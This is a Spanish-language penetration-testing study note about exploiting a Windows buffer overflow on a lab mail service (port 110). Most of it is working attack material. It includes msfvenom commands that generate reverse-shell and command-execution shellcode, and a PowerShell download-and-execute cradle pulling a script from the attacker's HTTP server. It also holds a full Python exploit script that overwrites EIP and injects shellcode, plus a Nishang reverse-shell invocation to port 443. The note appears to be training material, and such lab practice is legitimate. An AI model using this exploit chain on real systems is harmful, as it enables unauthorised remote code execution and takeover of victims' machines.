 ------
- Tags: #shellcode #powershell
----
# Explicación

Además de los payloads que se han utilizado en las secciones anteriores, también es posible utilizar payloads como “**windows/exec**” para cargar directamente el comando que se desea ejecutar en la variable **CMD** del payload. Esto permite crear un nuevo shellcode que, una vez interpretado, ejecutará directamente la instrucción deseada.

> El payload “**``windows/exec``**” es un payload de Metasploit que permite ejecutar un comando arbitrario en la máquina objetivo. Este payload requiere que se especifique el comando a ejecutar a través de la variable CMD en el payload. Al generar el shellcode con msfvenom, se puede utilizar el parámetro `-p windows/exec CMD=<comando>` para especificar el comando que se desea ejecutar.

Una vez generado el shellcode con el comando deseado, se puede utilizar la técnica de buffer overflow para sobrescribir el registro EIP y hacer que el flujo del programa entre en el shellcode. Al interpretar el shellcode, se ejecutará directamente el comando especificado en la variable CMD.

==DATO IMPORTANTE== si estamos en un escenario en el que **detectamos que la aplicación posee muchos Badchars** (más de diez), se recomienda no indicar el **Encoder** ``shikata_ga_nae`` ya que a veces **no podrá generarte el Shellcode correctamente**, es preferible **no indicar** ningún Encoder y que el ``msfvenom`` decida cual es el más óptimo.
# Ejemplo

Nosotros lo que podríamos hacer es que con la herramienta ``msfvenom`` en vez de colocar las instrucciones que usamos anteriormente

- ``msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.0.194 LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread``

Podemos usar otro **Payload** diferente al de ``shell_reverse_tcp``, por lo tanto borramos ese Payload, el ``LHOST`` y el ``LPORT``. Colocamos un nuevo Payload ``windows/exec CMD="comando"`` que nos permitirá controlar el comando que deseemos ejecutar, en mi caso ejecutaremos un comando especifico que ahora explicaremos, quedando todo tal que así.

- ``msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.194/PS.ps1')" --platform windows -a x86 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread``

El campo ``CMD=`` hace alusión al comando que queremos que ejecute el sistema una vez se interprete nuestro Payload en la **Pila**, en mi caso el comando que quiero que se ejecute es este.

- ``CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.194/PS.ps1')"``

Este comando lo que hace es desde la **Powershell** de la máquina Windows (que cabe aclarar que es una Shell **muchísimo más poderosa** que la consola de tipo **ms2**) interpretar un recurso llamado ``PS.ps1`` que es un script programado en Powershell que voy a estar Hosteando como servicio HTTP en mi web.
Básicamente lo que estamos diciéndole a la máquina víctima es que **ejecute con Powershell un recurso que estamos compartiendo por un servidor local nuestro**.

Por lo tanto **copiaremos todo el Shellcode que nos brinda el ``msfvenom``** y lo **reemplazaremos en nuestro script** del Buffer Overflow en la variable ``shellcode``, recordemos **colocar el Shellcode en formato Bytes**(``b``).

```python
#!/usr/bin/python3

from struct import pack
import socket
import sys

# Variables globales. 
ip_address = "192.168.0.120"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L", 0x5f4bcc6b)

shellcode = (b"\xb8\x34\x96\x23\x54\xda\xd4\xd9\x74\x24\xf4\x5d\x31\xc9"
b"\xb1\x44\x31\x45\x14\x83\xc5\x04\x03\x45\x10\xd6\x63\xdf"
b"\xbc\x94\x8c\x20\x3d\xf8\x05\xc5\x0c\x38\x71\x8d\x3f\x88"
b"\xf1\xc3\xb3\x63\x57\xf0\x40\x01\x70\xf7\xe1\xaf\xa6\x36"
b"\xf1\x83\x9b\x59\x71\xd9\xcf\xb9\x48\x12\x02\xbb\x8d\x4e"
b"\xef\xe9\x46\x05\x42\x1e\xe2\x53\x5f\x95\xb8\x72\xe7\x4a"
b"\x08\x75\xc6\xdc\x02\x2c\xc8\xdf\xc7\x45\x41\xf8\x04\x63"
b"\x1b\x73\xfe\x18\x9a\x55\xce\xe1\x31\x98\xfe\x10\x4b\xdc"
b"\x39\xca\x3e\x14\x3a\x77\x39\xe3\x40\xa3\xcc\xf0\xe3\x20"
b"\x76\xdd\x12\xe5\xe1\x96\x19\x42\x65\xf0\x3d\x55\xaa\x8a"
b"\x3a\xde\x4d\x5d\xcb\xa4\x69\x79\x97\x7f\x13\xd8\x7d\x2e"
b"\x2c\x3a\xde\x8f\x88\x30\xf3\xc4\xa0\x1a\x9e\x1b\x36\x21"
b"\xec\x1b\x48\x2a\x41\x73\x79\xa1\x0e\x04\x86\x60\x6b\xea"
b"\x64\xa1\x86\x82\x30\x20\x2b\xcf\xc2\x9e\x68\xe9\x40\x2b"
b"\x11\x0e\x58\x5e\x14\x4b\xde\xb2\x64\xc4\x8b\xb4\xdb\xe5"
b"\x99\xc5\xb4\x6e\x47\x54\x38\xf8\xe2\xf4\xd2\xd8\xa5\x41"
b"\x73\x30\x78\x2f\xf4\x6d\xcb\xcd\x90\x08\xb0\x65\x45\x9c"
b"\x53\xf2\xab\x77\xf9\x98\xf0\x1b\x68\x38\x99\x97\x43\xec"
b"\x01\x38\xe3\x9e\xa5\xa9\x6a\x3b\x65\x41\x1f\xaa\xe7\xce"
b"\xf7\x0b\x90\x64\x7c\x24\x5a\xab\x53\xf5\xa3\x81\x85\xc4"
b"\xe5\xdd\xf7\x16\x24\x2c\x31\x63\x17\x1e\x12\xa5\x17\xed"
b"\xa5\x9e\xd7")

payload = before_eip + eip + b"\x83\xEC\x10" + shellcode 


def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, port))
    banner = s.recv(1024)

    s.send(b"USER test" + b'\r\n')
    response = s.recv(1024) 
    s.send(b"PASS " + payload + b'\r\n')
    s.close()

if __name__ == '__main__':

    exploit()
```

El recurso de Github del script que queremos que interprete nuestro Shellcode de ``msfvenom`` es [este](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), su propietario es **Nishang**. Es este script el que nosotros lo meteremos en nuestra máquina de atacante con ``wget`` y **lo vamos a renombrar** como ``PS.ps1``.
Este script es un script que **define una función** llamada ``Invoke-PowerShellTcp`` que una vez cargada e interpretada **podemos invocarla** por ejemplo como se define en el comentario ``.EXAMPLE`` del script, colocando la siguiente cadena al final del todo con **nuestra IP de atacante** y el **puerto** que queramos, en mi caso el *443*.

- ``Invoke-PowerShellTcp -Reverse -IPAddress 192.168.0.194 -Port 443``

De esta manera entablaríamos una **Reverse Shell** ya que con todo el script lo que hacemos es ejecutar una **PowerShell** y luego cargaría la instrucción de la conexión hacía nuestra máquina.

------

Ahora lo que tendríamos que hacer es:

- **Montar un servidor HTTP** en mi caso con ``python3 -m http.server 80`` para ofrecer el script ``PS.ps1``. 
- **Pondremos en escucha** por el *puerto 443* ya que ahí nos llegará la **Reverse Shell** una vez sea interpretado el Shellcode que metimos en la **Pila** (recordemos que es el shellcode que realiza la interpretación del script ``PS.ps1`` a través del servidor web nuestro, ejecutándolo con la PowerShell de la máquina Windows).
- **Ejecutamos** nuestro script del Buffer Overflow (En mi caso lo renombre de ``eip-control.py`` a ``BOF.py``) y esperamos el acceso a la máquina víctima.

![[BOF 35.png]]

Ganamos acceso a la máquina Windows pero esta vez a través de una **PowerShell** (**PS**).

==DATO IMPORTANTE== si estamos en un escenario en el que **detectamos que la aplicación posee muchos Badchars** (más de diez), se recomienda no indicar el **Encoder** ``shikata_ga_nae`` ya que a veces **no podrá generarte el Shellcode correctamente**, es preferible **no indicar** ningún Encoder y que el ``msfvenom`` decida cual es el más óptimo.